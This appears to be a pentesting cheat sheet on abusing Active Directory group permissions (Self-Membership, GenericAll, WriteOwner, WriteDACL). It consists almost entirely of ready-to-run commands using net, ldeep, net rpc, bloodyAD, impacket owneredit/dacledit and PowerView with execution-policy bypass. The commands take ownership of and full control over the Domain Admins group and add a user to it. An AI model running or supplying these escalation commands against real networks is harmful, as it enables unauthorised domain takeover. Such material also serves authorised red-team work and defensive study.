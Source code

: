 # ACLs/ACEs permissions on Group

### Self (Self-Membership) on Group / GenericAll/WriteProperty on Group/ WriteProperty (Self-Membership)

#### 1) Add group member

    net group "GROUP" MY_USER /add /domain

#### 2) ldeep

    ldeep ldap -u USER -p PASSWORD -d DOMAIN -s ldap://DC add_to_group "CN=USER,DC=DOMAIN" "CN=GROUP,DC=DOMAIN"

#### 3) Linux Net RPC - Samba

    net rpc group addmem "GROUP" "USER" -U domain.local/USER%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER" -p "Password@1" add groupMember "GROUP" "USER"

### WriteOwner on Group

WriteDACL + WriteOwner. Give yourself Generic All with: owneredit.py and dacledit.py

#### 1) impacket-owneredit

Grant our user ownership of the Domain Admins group (example)

    impacket-owneredit -action write -new-owner 'USER1' -target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 2) impacket-dacledit

Grant our user Full Control of the Domain Admins group (example)

    impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'USER1' - target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 3) Linux Net RPC - Samba

    net rpc group addmem "Domain Admins" USER1 -U domain.local/USER1%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" add groupMember "Domain Admins" "USER1"

#### 5) Powerview

Grant Ownership and Full Control

    powershell -ep bypass
    Import-Module .PowerView.ps1
    Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'USER1'
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "USER1"

#### 6) Windows Net command

    net group "domain admins" USER1 /add /domain

